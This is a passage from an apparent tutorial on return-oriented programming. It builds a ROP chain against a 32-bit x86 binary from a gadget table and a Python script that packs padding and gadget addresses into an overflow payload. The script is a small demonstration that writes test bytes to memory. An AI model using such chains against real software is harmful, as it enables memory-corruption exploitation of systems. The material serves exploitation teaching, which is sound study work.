 This means we can put together the chain like so:

``` example
0x0809a70d  | <mov [edx],eax;ret> | write '0000' to address 0x080ea61
0x080ea061  | 0x080ea061          | next byte after 0x80ea61
0x0806e97a  | <pop edx; ret>      | store next value in edx
0x08054202  | <xor eax,eax; ret>  | zero eax
0x0809a70d  | <mov [edx],eax;ret> | write 'AAAA' to address 0x080ea60
0xdeadbeef  | 0xdeadbeef          | to be stored in edi
0xdeadbeef  | 0xdeadbeef          | to be stored in esi
0xdeadbeef  | 0xdeadbeef          | to be stored in ebx
0x41414141  | 0x41414141          | 'AAAA' to be stored in eax
0x0809e080  | <pop eax; pop ebx; pop esi; pop edi ret>       | store next value in eax
0x080ea060  | 0x080ea060          | address we will write to, now stored in edx
0x0806e87a  | <pop edx; ret>      |  store next value in edx
```

Notice the `0xdeadbeef`. This is because the gadget to set eax comes
with some added bagage, namely a bunch of extra pop's that have to be
handled. These pop's will clear the stack of values, so we need to add
some values on the stack, 0xdeadbeef's, so we don't interfere with the
rest of the chain.

## Executing the ROP Chain

One problem with ROP chains is that they are long, much longer then
something we can just casually type on the command line. It then makes
sense to store it in a file, and python is the right tool for the job.

``` example
p = 'A'*0x70 #put padding here

p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x0809e080) #pop eax;pop ebx; pop esi; pop edi; ret
p += pack('<I', 0x41414141) #'AAAA'
p += pack('<I', 0xdeadbeef) # filler
p += pack('<I', 0xdeadbeef) # filler
p += pack('<I', 0xdeadbeef) # filler
p += pack('<I', 0x0809a70d) # mov [edx],eax;ret
p += pack('<I', 0x08054202) # xor eax,eax
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea061) #address to write to
p += pack('<I', 0x0809a70d) # mov [edx],eax;ret
p += pack('<I', 0xcafebabe) #  will segfault here
print p 
```

Note that the `pack('<I',0xdeadbeef)` will create a properly formatted
little Endian string of 0xdeadbeef. Also note that we built the exploit
string in reverse order from the presentation above. I also places a
0xcafebabe in there so we can know if we segfaulted and reached the end
of our ropchain, so let's try it out and see if we get there:

